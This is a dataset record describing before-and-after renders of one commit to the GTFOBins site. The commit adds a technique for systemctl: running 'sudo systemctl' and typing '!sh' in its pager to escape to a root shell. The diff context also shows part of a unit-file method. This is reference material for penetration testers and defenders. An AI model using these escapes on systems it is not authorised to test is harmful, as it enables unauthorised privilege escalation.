

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/systemctl.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add systemctl sudo shell usingpager

```diff
--- a/_gtfobins/systemctl.md
+++ b/_gtfobins/systemctl.md
@@ -20,4 +20,8 @@ functions:
         WantedBy=multi-user.target' > $TF
         sudo systemctl link $TF
         sudo systemctl enable --now $TF
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
+        sudo systemctl
+        !sh
 ---
```
